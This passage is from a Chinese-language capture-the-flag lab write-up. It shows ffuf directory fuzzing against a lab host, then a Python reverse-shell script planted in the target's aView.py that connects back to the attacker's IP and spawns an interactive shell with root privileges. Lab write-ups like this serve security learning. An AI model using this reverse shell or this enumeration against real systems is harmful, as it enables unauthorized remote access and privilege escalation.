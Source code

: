 下一步使用 *fuzz* 工具进行枚举，经过一番过滤，最终找到有效的路径：`http://192.168.174.140:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a`

```shell
┌──(root💀kali)-[~]
└─# ffuf -u http://192.168.174.140:8191/FUZZ -w dic.txt -fs 167,119,147

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.174.140:8191/FUZZ
 :: Wordlist         : FUZZ: dic.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 167,119,147
________________________________________________

7f98ca7ba1484c66bf09627f931448053ae6b55a [Status: 200, Size: 815, Words: 79, Lines: 46]
d0fa319a11ef644862edf51b9177b9d62a1e6650 [Status: 200, Size: 133, Words: 6, Lines: 5]
ef1cacc0f3b5aea1a0d56c5df4263580e7b23570 [Status: 200, Size: 133, Words: 6, Lines: 5]
e7642454c8c6047fd883a859580a0723657fcf45 [Status: 200, Size: 115, Words: 4, Lines: 6]
2cfc36dfe3e7f20faa2ad9bc2091c25387844adf [Status: 200, Size: 133, Words: 6, Lines: 5]
```

![3]({{ '/view2akill/3.png' | prepend: site.url }})

点击执行将会执行 *aView.py* 脚本，因此在脚本中 socket连接代码，一旦运行即可得到 *root* 权限的 *shell* ：

```python
jenny@view:/home/max$ cat aView.py
#!/usr/bin/python
#
# executed from php app add final wrapper/scirpt here

import os
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.174.128",6677))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

